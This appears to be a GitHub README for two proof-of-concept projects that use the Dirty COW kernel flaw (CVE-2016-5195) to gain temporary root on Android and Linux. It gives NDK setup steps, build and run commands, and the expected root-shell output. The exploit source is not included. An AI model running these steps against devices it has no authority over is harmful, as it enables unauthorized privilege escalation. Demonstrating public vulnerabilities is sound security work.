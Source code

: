 This repo contains 2 seperate projects:

1  GetRoot-Android-DirtyCow

And:

2  CVE-2016-5195



1 GetRoot-Android-DirtyCow

 Get temporary root on android by exploiting the dirtycow vulnerability.


Run in android or linux:

  ./G1tR0oT

Should execute and result in a root shell



2 CVE-2016-5195

(dirty cow/dirtycow/dirtyc0w) poc for Android

This repo (cloned from https://github.com/timwr/CVE-2016-5195) demonstrates the vulnerability on vulnerable Android devices attached via ADB.

It does not disable SELinux (see https://github.com/timwr/CVE-2016-5195/issues/9) or install superuser on the device.


Make sure you have android-ndk installed: check if you have "ndk-build" in your path:

  which ndk-build

To install android-ndk:

  cd $HOME

  wget https://dl.google.com/android/repository/android-ndk-r14b-linux-x86_64.zip #For darwin: https://dl.google.com/android/repository/android-ndk-r14b-darwin-x86_64.zip

  unzip android-ndk-r14b-linux-x86_64.zip

  cd $HOME/android-ndk-r14b/

Add android-ndk to path

  export PATH="$PATH:$HOME/android-ndk-r14b/"


To run script:

  cd CVE-2016-5195

  make root


If exploited, you should execute:

  adb shell /system/bin/run-as


And running:

  id

Should output "uid=0":

  uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log)......
  
  
  
  Other info/links:
  https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  https://dirtycow.ninja/
